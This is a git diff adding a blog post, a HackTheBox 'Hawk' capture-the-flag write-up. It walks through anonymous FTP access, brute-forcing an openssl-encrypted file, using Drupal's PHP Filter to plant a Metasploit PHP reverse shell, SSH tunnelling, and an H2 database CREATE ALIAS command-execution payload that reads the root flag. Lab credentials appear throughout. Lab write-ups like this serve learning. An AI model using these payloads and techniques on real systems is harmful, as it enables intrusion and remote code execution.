

htb-hawk writeup added

diff --git a/_posts/htb/2019-1-30-htb-hawk.md b/_posts/htb/2019-1-30-htb-hawk.md
@@ -1,0 +1,120 @@
+---
+layout: post
+title: HackTheBox - Hawk
+categories: htb
+permalink: /htb-hawk
+---
+
+![BoxInfo]({{ site.baseurl }}/assets/htb-images/hawk/infocard.png)
+
+Starting off with a nmap scan to enumerate ports, thus to determine the potential attack vector !
+
+![Nmap]({{ site.baseurl }}/assets/htb-images/hawk/InitialScan-Nmap.png)
+
+FTP is open and the header shows that I can login anonymously and that there is a folder called "messages".  Using the command:
+
+> ftp 10.10.10.102 21
+
+I logged in to FTP with username: Anonymous & empty password. After listing the files in the folder messages, I didn't see anything, but after listing all files with hidden files as well, I was able to find a hidden file called: ".drupal.txt.enc".
+
+![FTP]({{ site.baseurl }}/assets/htb-images/hawk/FTPHiddenFile.png)
+
+By the name of the file I was able to determine that it was storing an encrypted information. I had to decrypt it somehow but first I had to see what was the cipher used to encrypt the informaiton. Once I checked the file by running "file .drupal.txt.enc", I noticed that it is Base64 encoded but openssl encrypted with salted password. It was easy to decode the base64 by just running:
+
+> base64 -d .drupal.txt.enc > decrypted.txt.enc
+
+I did some google research and found a tool which is used to bruteforce openssl salted passwords. [Link to tool](https://github.com/glv2/bruteforce-salted-openssl)
+To bruteforce the password, I ran:
+
+```
+#Dependencies to download !#dh-autoreconf <---
+apt-get install dh-autoreconfmv .drupal.txt.enc drupal.txt.encbase64 -d drupal.txt.enc > decrypted.txt.encbruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -d sha256 -c AES-256-CBCdecrypted.txt.enc
+#Password: friends
+```
+
+![BruteF-Passwd]({{ site.baseurl }}/assets/htb-images/hawk/BruteF-Passwd.png)
+
+Now I had the password and it was time to decrypt the file and read the message.
+
+```
+#OpenSSL
+openssl enc -aes-256-cbc -d -salt -base64 -in .drupal.txt.enc -md sha256 -k friends
+#Drupal Admin Panel Account
+#Password: PencilKeyboardScanner123
+```
+
+![Decryption-Drupal]({{ site.baseurl }}/assets/htb-images/hawk/Decryption-Drupal.txt.enc.png)
+
+Judging by the name of the file, I had to use this password for the Drupal web server. I accessed it on port 80. After accessing Drupal, I immediately saw a login form and I tried to login with username: admin & the decrypted password from the openssl file and it worked !
+
+![Drupal-Admin-Acces]({{ site.baseurl }}/assets/htb-images/hawk/Drupal-Admin-Acces.png)
+
+So after doing some enumeration and looking at the HTB forum for hints I found that H2 Database which runs on port 8082 has some vulnerabilities but they didn't worked ! I went back to the Drupal web page and started enumerating it ! Section modules on the top was pretty interesting and i was able to find a module called “PHP Filter”, which when turnedon would allow me to execute PHP code, so that means I will be able to get a reverse shell ! So I accessed the modules and enabled PHP Filtering !
+
+![phpfilter-module-drupal]({{ site.baseurl }}/assets/htb-images/hawk/phpfilter-module-drupal.png)
+
+After enabling the PHP Filter module, I created a new article page and changed the text format to be PHP Code, after that I used msfvenom PHP reverse shell sample code by generating one and adding it in the body section, then I saved the article and accessed it and I got a reverse shell !
+
+```
+#In Metasploit
+use multi/handlerset payload php/meterpreter/reverse_tcpset lhost set lport <>exploit -j -z
+```
+
+![Meterpreter-Session]({{ site.baseurl }}/assets/htb-images/hawk/Meterpreter-Session.png)
+
+So after doing some enumeration in the root folder of the system i wasn't able to find anything as credentials for user daniel, so I went back to where Drupal was install and checked in sites/default/... for some configuration files that may contain passwords ! This link helped me to understand what to look for -> [Link]](https://www.drupal.org/docs/7/install/step-3-create-settingsphp-and-the-files-directory).So in sites/default/settings.php I have found the password for user daniel ! Now I just had to log in as daniel through ssh !
+
+![Settings.php-Daniel-Creds]({{ site.baseurl }}/assets/htb-images/hawk/Settings.php-Daniel-Creds.jpg)
+
+When I logged in as daniel, I was spawned in python3 interactive mode shell and I had to espace it and get bash or sh. To do this I used the python one line command to get proper TTY shell, by separating each command to be able to run then in the python interactive shell. 
+
+```
+#In Terminal
+import ptypty.spawn("/bin/bash")
+#Python iShell Escaped !
+```
+
+After I got a bash shell, I started enumerating the machine to find interesting information which would allow me to privilege escalate to root. When I enumerated the machine with user daniel, I wasn't able to find anything interesting, so I went back to the initial foothold and nmap scan and the target for me was now the H2 Console. When I tried to access the server on port 8082 it said that it didn't allow remote connections, which lead to my next step, to tunnel the connection to my machine and then access H2 Console ! For tunneling the connection, this website helped me to understand how to do it -> [Link](https://razorsql.com/articles/configuring_ssh_tunnels_database_connections.html).
+
+```
+#In Terminal#To get the tunnel to work through SSH
+$ ssh -L 8083:10.10.10.102:8082 daniel@10.10.10.102
+#Password: drupal4hawk
+#Tunnel works !
+```
+
+Once I got the tunnel up and running I accessed the H2 Console on localhost with the port I set it to run on. I saw another login form.
+
+![H2-Console-Accessed]({{ site.baseurl }}/assets/htb-images/hawk/H2-Console-Accessed.jpg)
+
+With some questioning and testing here, I was able to login, but the trick to login to H2 Console was that I had to set the database to run in memory. I gathered some useful information before I accessed the H2 Console, such as potential usernames and passwords.
+
+```
+#Usernames: drupal, admin, sa, root, daniel
+#Passwords: PencilKeyboardScanner123, drupal4hawk, xxj31ZMTZzkVA
+```
+
+A website that helped me to get the memory database is this one [Link](https://www.javatips.net/blog/h2-in-memory-database-example). So once I tried all of the credentials I found, the one combo that worked and worked for SSH or daniel account !
+
+```
+#Creds for H2 Console
+User Name: daniel
+Password: drupal4hawk
+```
+
+![H2Console-Terminal
+]({{ site.baseurl }}/assets/htb-images/hawk/H2Console-Terminal.jpg)
+
+Earlier I have found a great blog expaining a vulnerability in H2 Database where if no user was set, the database will use the default one sa:*blank_password*, so by accessing the H2 Console, I could send commands and get a reverse shell !
+Link to the blog exaplaining the vulnerability and exploit -> [Link](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html).
+So, I was able to get the root flag by using the exploit code this person has written. Since the H2 Database is running as root user I just have to enter the command, make a small changeto the exploit code and get the root flag !
+
+```
+#Exploit code to output “id”
+
+CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException{ java.util.Scanner s = newjava.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\A"); returns.hasNext() ? s.next() : ""; }$$;CALL SHELLEXEC('id')
+```
+
+So by changing ‘id’ in line CALL SHELLEXEC to ‘cat /root/root.txt’ I am able to get the root flag !
+
+![ExploitCode-RootFlag]({{ site.baseurl }}/assets/htb-images/hawk/ExploitCode-RootFlag.jpg)
